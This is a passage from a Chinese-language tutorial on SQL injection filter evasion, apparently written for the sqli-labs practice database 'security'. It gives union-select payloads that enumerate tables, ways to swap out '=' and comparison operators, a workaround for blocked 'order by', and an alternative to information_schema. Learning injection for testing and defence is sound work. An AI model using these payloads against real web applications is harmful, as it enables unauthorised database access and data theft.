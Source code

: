   ```
  ?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' --+
  ?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema like 'security' --+
  ?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema rlike 'security' --+
  ?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema regexp'security' --+
  ?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema in ('security') --+
  ```

* `between and `替代

  ```
  ?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema  between 'security' and 'security' --+
  ```

  

#### 9.比较符绕过

* `greatest()，least()`函数替代

  `greatest(n1,n2,n3,...)`会返回输入的参数中最大的，`least(n1,n2,n3,...)`函数会返回输入的参数中最小的

  ```
  数据库为'security'
  select greatest(ascii(substr(database(),1,1)),64)   #返回115
  select least(ascii(substr(database(),1,1)),64)      #返回64
  ```

* `strcmp()`函数替换

  `strcmp(n1,n2)`函数会比较输入的两个参数（字符串）的大小，一般是根据ASCII码表来比较

  * `n1=n2`返回 0
  * `n1<n2`返回 -1
  * `n1>n2`返回 1 

  例如`?id=-1' union select 1,strcmp(ascii(substr('select database()',1,1)),115),3 --+`返回 0



#### 10.order by 绕过

* 可以用`into `变量名来代替、

* 直接一个一个试，直到不报错为止

  ```
  select 1,2,3 --+
  ```



#### 11.information_schema绕过

* 可以用`mysql.innodb_table_stats`来代替`information_schema.tables`
